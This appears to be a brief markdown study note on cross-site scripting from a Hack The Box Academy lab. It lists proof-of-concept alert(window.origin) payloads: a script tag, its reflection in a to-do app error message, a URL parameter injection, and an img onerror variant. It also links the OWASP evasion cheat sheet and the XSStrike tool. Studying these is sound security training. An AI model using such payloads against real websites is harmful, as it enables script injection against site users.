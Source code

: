 # XSS

```html
<script>
  alert(window.origin);
</script>
```

```html
<div></div>
<ul class="list-unstyled" id="todo">
  <div style="padding-left:25px">
    Task '
    <script>
      alert(window.origin);
    </script>
    ' could not be added.
  </div>
</ul>
```

```url
http://SERVER_IP:PORT/index.php?task=<script>alert(window.origin)</script>
```

```html
<img src="" onerror="alert(window.origin)" />
```

[Owasps xss cheat sheet](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet).
[XSStrike](https://github.com/s0md3v/XSStrike).
[HTB](https://academy.hackthebox.com/module/103/section/982)

